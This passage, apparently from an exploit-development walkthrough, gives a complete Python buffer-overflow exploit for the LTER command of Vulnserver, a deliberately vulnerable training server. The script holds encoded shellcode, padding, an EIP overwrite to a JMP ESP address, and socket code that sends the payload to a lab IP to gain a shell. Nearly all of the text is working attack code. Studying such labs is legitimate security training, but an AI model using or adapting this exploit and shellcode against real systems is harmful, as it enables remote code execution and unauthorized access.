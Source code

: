 Now we have gone through every steps and crafted our final exploit to gain shell on our target machine

The exploit script for this buffer overflow via ```LTER``` command is,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat exploit.py                                                 
import socket, sys

# shellcode
buf =  b""
buf += b"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
buf += b"\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
buf += b"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
buf += b"\x39\x6c\x6d\x38\x6b\x32\x65\x50\x57\x70\x57\x70\x31"
buf += b"\x70\x4f\x79\x6a\x45\x76\x51\x39\x50\x63\x54\x4e\x6b"
buf += b"\x76\x30\x64\x70\x6e\x6b\x32\x72\x44\x4c\x4e\x6b\x30"
buf += b"\x52\x36\x74\x4e\x6b\x32\x52\x46\x48\x44\x4f\x78\x37"
buf += b"\x50\x4a\x35\x76\x74\x71\x69\x6f\x6e\x4c\x47\x4c\x43"
buf += b"\x51\x71\x6c\x66\x62\x56\x4c\x65\x70\x7a\x61\x7a\x6f"
buf += b"\x64\x4d\x65\x51\x39\x57\x79\x72\x4b\x42\x31\x42\x36"
buf += b"\x37\x6e\x6b\x56\x32\x56\x70\x4c\x4b\x32\x6a\x75\x6c"
buf += b"\x6c\x4b\x62\x6c\x44\x51\x30\x78\x6b\x53\x30\x48\x35"
buf += b"\x51\x4e\x31\x32\x71\x4e\x6b\x31\x49\x67\x50\x73\x31"
buf += b"\x6b\x63\x4e\x6b\x37\x39\x36\x78\x6d\x33\x77\x4a\x52"
buf += b"\x69\x4e\x6b\x54\x74\x4e\x6b\x76\x61\x49\x46\x56\x51"
buf += b"\x69\x6f\x6c\x6c\x6a\x61\x4a\x6f\x36\x6d\x35\x51\x58"
buf += b"\x47\x65\x68\x6b\x50\x62\x55\x59\x66\x73\x33\x31\x6d"
buf += b"\x7a\x58\x75\x6b\x31\x6d\x64\x64\x52\x55\x59\x74\x62"
buf += b"\x78\x4e\x6b\x62\x78\x44\x64\x73\x31\x4a\x73\x62\x46"
buf += b"\x4c\x4b\x54\x4c\x62\x6b\x6c\x4b\x52\x78\x77\x6c\x36"
buf += b"\x61\x38\x53\x4e\x6b\x47\x74\x6e\x6b\x45\x51\x4e\x30"
buf += b"\x4c\x49\x53\x74\x71\x34\x76\x44\x61\x4b\x73\x6b\x50"
buf += b"\x61\x33\x69\x53\x6a\x30\x51\x79\x6f\x6d\x30\x71\x4f"
buf += b"\x53\x6f\x32\x7a\x6c\x4b\x72\x32\x58\x6b\x4e\x6d\x73"
buf += b"\x6d\x51\x7a\x66\x61\x4c\x4d\x4b\x35\x4f\x42\x57\x70"
buf += b"\x45\x50\x73\x30\x76\x30\x50\x68\x64\x71\x6c\x4b\x62"
buf += b"\x4f\x4e\x67\x4b\x4f\x6b\x65\x6f\x4b\x7a\x50\x78\x35"
buf += b"\x4c\x62\x71\x46\x35\x38\x6f\x56\x6d\x45\x4f\x4d\x4d"
buf += b"\x4d\x4b\x4f\x6b\x65\x65\x6c\x74\x46\x63\x4c\x67\x7a"
buf += b"\x4f\x70\x39\x6b\x6b\x50\x50\x75\x36\x65\x4f\x4b\x67"
buf += b"\x37\x45\x43\x53\x42\x30\x6f\x72\x4a\x73\x30\x31\x43"
buf += b"\x39\x6f\x79\x45\x31\x73\x53\x51\x50\x6c\x75\x33\x74"
buf += b"\x6e\x32\x45\x70\x78\x32\x45\x57\x70\x41\x41"

payload=b""
# to overwrite buffer and EBP
payload+=b"A"*2005
# to overwrite EIP with JMP ESP
payload+=b"\x03\x12\x50\x62"
# executing shellcode
payload+=buf
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"LTER ./"+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 exploit.py                                            
```
